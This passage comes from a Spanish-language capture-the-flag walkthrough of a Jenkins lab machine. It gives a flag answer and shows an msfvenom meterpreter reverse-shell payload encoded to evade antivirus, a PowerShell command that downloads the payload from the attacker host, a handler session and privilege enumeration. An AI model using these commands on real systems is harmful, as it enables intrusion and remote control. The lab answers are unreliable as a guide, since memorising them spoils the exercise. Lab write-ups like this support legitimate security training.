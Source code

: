 What is the user.txt flag? **79007a09481963edf2e1321abd9ae2a0**

## 2. Cambiar shells

En esta sección se nos pide que lo hagamos por metasploit, para tener una shell mas avanzada.

Creamos un payload, la idea de usar un encoder es evadir deteccion de antivirus de firmas conocidas.

```
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.10.61.217 LPORT=4444 -f exe -o payload.exe
```

En Jenkins, subimos nuestro payload, ejecutando en el Job lo siguiente:
```
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.10.61.217:8000/payload.exe','payload.exe')"

```

En metasploit, usamos un multi/handler para dejar en modo escucha conexiones entrantes
```
use exploit/multi/handler 
use PAYLOAD windows/meterpreter/reverse_tcp 
set LHOST 10.10.61.217
set LPORT 4444
run

```

Nuevamente en Jenkins, ejecutemos el payload de la siguiente manera
```
call payload.exe
```

Eso levantará un meterpreter en metasploit.

```
[-] Handler failed to bind to 10.10.202.154:4444:-  -
[*] Started reverse TCP handler on 0.0.0.0:4444 
[*] Sending stage (175686 bytes) to 10.10.202.154
[*] Meterpreter session 1 opened (10.10.202.154:4444 -> 10.10.202.154:49195) at 2023-09-04 01:03:20 +0100

meterpreter > 
```


What is the final size of the exe payload that you generated? **73802**

## 3. Escalar privilegios
Ya estamos dentro, veamos que permisos tenemos
```
shell
```
```
C:\Program Files (x86)\Jenkins\workspace\project>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                  Description                               State   
=============================== ========================================= ========
SeIncreaseQuotaPrivilege        Adjust memory quotas for a process        Disabled
SeSecurityPrivilege             Manage auditing and security log          Disabled
SeTakeOwnershipPrivilege        Take ownership of files or other objects  Disabled
SeLoadDriverPrivilege           Load and unload device drivers            Disabled
```